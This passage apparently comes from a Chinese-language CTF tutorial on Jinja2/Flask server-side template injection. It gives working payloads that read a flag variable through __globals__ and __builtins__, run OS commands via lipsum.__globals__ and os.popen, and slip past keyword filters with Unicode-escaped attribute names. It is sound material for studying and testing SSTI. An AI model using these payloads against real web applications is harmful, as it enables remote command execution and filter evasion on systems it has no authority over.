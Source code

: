 #### 导入主函数读取变量

有一些题目我们不并需要去getshell，比如flag直接暴露在变量里面了，像如下这样把`/flag`文件加载到flag这个变量里面了

```go
f = open('/flag','r')



flag = f.read()
```

我们就可以通过`import`是导入`__main__`主函数去读变量，payload如下

```go
{%print request.application.__globals__.__getitem__('__builtins__').__getitem__('__import__')('__main__').flag %}
```

#### Unicode绕过

这种方法是从安洵杯2020 官方Writeup学到的，我们直奔主题看payload

```go
{%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22))|attr(%22\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f%22)(%22os%22)|attr(%22popen%22)(%22whoami%22)|attr(%22read%22)()%}
```

这里的`print`绕过`{{}}`和`attr`绕过`.`上面已经说过了这里不赘述

然后这里的`lipsum`用`{{lipsum}}`测了一下发现是个方法

```go
<function generate_lorem_ipsum at 0x7fcddfa296a8>
```

然后用他直接调用`__globals__`发现可以直接执行os命令，测了一下发现`__builtins__`也可以用，又学到了一种新方法，只能说师傅们tql

```go
{{lipsum.__globals__['os'].popen('whoami').read()}}



{{lipsum.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
```

回到正题，这里使用了Unicode编码绕过关键字，下面两行是等价的

```go
{{()|attr("__class__")}}



{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")}}
```

知道了这两点之后，那个官方给的payload就很明朗了，解开编码后如下

```go
{%print(lipsum|attr("__globals__"))|attr("__getitem__")("os")|attr("popen")("whoami")|attr("read")()%}
```
